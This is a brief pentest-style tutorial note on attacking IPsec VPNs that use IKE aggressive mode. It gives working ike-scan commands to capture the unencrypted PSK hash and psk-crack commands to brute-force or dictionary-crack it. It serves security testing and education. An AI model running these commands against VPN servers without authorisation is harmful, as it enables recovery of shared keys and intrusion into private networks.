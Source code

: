 # Exploiting IKE Aggressive Mode

* **date**:: 2022-07-10

In IKE aggressive mode the authentication hash based on a preshared key (PSK) is transmitted as response to the initial packet of a vpn client that wants to establish an IPSec Tunnel (`Hash_R`). This hash is not encrypted (in main mode the hash *is* encrypted)

The `ike-scan` tool can be used to test if an IPSEC VPN server is using IKE in aggressive mode:

```bash
sudo ike-scan -A $IP_ADDRESS
```

If aggressive mode is in use, then `ike-scan` can be used to save the initial exchange for offline cracking:

```bash
sudo ike-scan -A $IP_ADDRESS --id=$ID -P$KEY_FILE
```

`psk-crack` can then be used to (attempt) to crack the resulting `$KEY_FILE`.

```bash
# Attempt to brute-force all keys up to $KEY_LENGTH using
# characters from $CHARSET (by default $CHARSET is numbers and
# lowercase ASCII characters).
#
psk-crack --charset="$CHARSET" -b $KEY_LENGTH $KEY_FILE

# Attempt to crack the PSK using a dictionary.
#
psk-crack -d $WORDLIST_FILE $KEY_FILE
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
